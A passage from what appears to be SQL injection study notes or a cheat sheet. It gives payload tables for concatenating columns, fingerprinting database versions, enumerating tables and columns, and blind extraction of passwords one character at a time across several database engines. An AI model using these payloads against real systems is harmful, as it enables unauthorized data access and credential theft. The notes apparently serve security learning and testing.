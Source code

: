 > The null data type is compatible with almost all data types.

Strings cannot be converted to integers. Sometimes the backend code tries to do so to our injection, causing it to fail. Thus, we need to identify which columns are operated on as strings.

We can do so by shifting the column with the string sequentially, replacing the rest with null.

### Too few columns!
Sometimes, we want to extract more columns than the injection allows. We can bypass this via concatenation.

| Version                  | Query          |
| ------------------------ | -------------- |
| MySQL, MSSQL, PostgreSQL | `CONCAT(a, b)` |
| sqlite, Oracle           | `a || b`       |

### Identify SQL version

| Version          | Query                          |
| ---------------- | ------------------------------ |
| Microsoft, MySQL | `SELECT @@version`             |
| Oracle           | `SELECT banner FROM v$version` |
| PostgreSQL       | `SELECT version()`             |
| sqlite           | `SELECT sqlite_version()`      |

### Get table/column names

| Version                  | Query                                                                                                                            |
| ------------------------ | -------------------------------------------------------------------------------------------------------------------------------- |
| MySQL, MSSQL, PostgreSQL | `SELECT table_name FROM information_schema.tables`<br>`SELECT column_name FROM information_schema.columns WHERE table_name = %s` |
| sqlite                   | `SELECT name, sql FROM sqlite_master`                                                                                            |
| Oracle                   | `SELECT table_name from all_tables`<br>`SELECT column_name from all_tab_columns where table_name = %s`                           |

> In sqlite, the sql column gives us the query used to create the table.

---

## Blind SQLi

*Useful when the attack vector is a login form, but the goal is not to bypass the login.*
| Version | Query                                      |
| ------- | ------------------------------------------ |
| MySQL   | ` or substring(password, x, 1) = 'a'; -- ` |
| sqlite  | ` or substr(password, x, 1) = 'a'; -- `    |
| PgSQL   | ` or substring(password, x, 1) = 'a'; -- ` |

